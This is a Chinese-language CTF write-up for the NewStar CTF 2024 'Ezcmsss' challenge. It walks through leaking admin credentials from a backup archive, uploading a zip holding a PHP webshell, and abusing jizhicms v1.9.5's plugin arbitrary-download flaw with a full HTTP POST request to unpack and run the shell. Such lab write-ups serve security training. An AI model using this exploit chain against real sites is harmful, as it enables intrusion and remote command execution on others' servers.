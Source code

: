 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Ezcmsss

在首页源码里找到提示，需要查看备份文件

![首页源码](/assets/images/wp/2024/week4/ezcmsss_1.png)

访问`/www.zip`获得源码备份文件，在`readme.txt`获得jizhicms版本号为v1.9.5，在`start.sh`获得服务器初始化时使用的管理员账号和密码

![管理员账号密码](/assets/images/wp/2024/week4/ezcmsss_2.png)

同时在start.sh中有备注提示访问`admin.php`进入管理页面，然后使用上面的账号密码登录

![admin.php](/assets/images/wp/2024/week4/ezcmsss_3.png)

上网搜索可以发现jizhicms v1.9.5有一个管理界面的任意文件下载漏洞

在`扩展管理-插件列表`中发现只有一个插件，这是由于容器不出网导致的，因此我们不能按照网上的方式，使用公网的url链接下载文件，需要在将.zip文件上传到题目容器里，然后通过任意文件下载漏洞本地下载、解压

![插件列表](/assets/images/wp/2024/week4/ezcmsss_4.png)

有几种上传.zip文件的方法，都可以获取到文件保存的目录，其中一种是在 `栏目管理-栏目列表-新增栏目` 中添加附件，上传构造好的包含php马的压缩包

![上传压缩包](/assets/images/wp/2024/week4/ezcmsss_5.png)

抓包获得保存路径为`/static/upload/file/20241016/1729079175871306.zip`，测试可以访问
在插件那边进行抓包，构造请求如下（可以照着网上的漏洞复现依葫芦画瓢，filepath随便起就行）（注意这里的PHPSESSID记得换成自己的）

```http
POST /admin.php/Plugins/update.html HTTP/1.1
Host: eci-2zedm1lw513xbz1d46c6.cloudeci1.ichunqiu.com
Content-Length: 126
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie:PHPSESSID=0k7pqbk4chhak4ku5aqbfhe7b3
Connection: close

filepath=apidata&action=start-download&type=0&download_url=http%3a//127.0.0.1/static/upload/file/20241016/1729079175871306.zip
```

![burp发包](/assets/images/wp/2024/week4/ezcmsss_6.png)

继续构造解压的请求，修改`action`即可，解压完的文件在`/A/exts`

![解压](/assets/images/wp/2024/week4/ezcmsss_7.png)

访问`/A/exts/shell.php`，可以直接进行命令执行（这里的文件名就是上面下载的压缩包里面的文件。注意如果压缩包里有多个文件，解压会在exts下建立一个和上面POST参数filepath的值一致的文件夹，php马需要在此目录下访问）

![shell](/assets/images/wp/2024/week4/ezcmsss_8.png)

flag在根目录下的`/flllllag`文件，用通配符读取即可
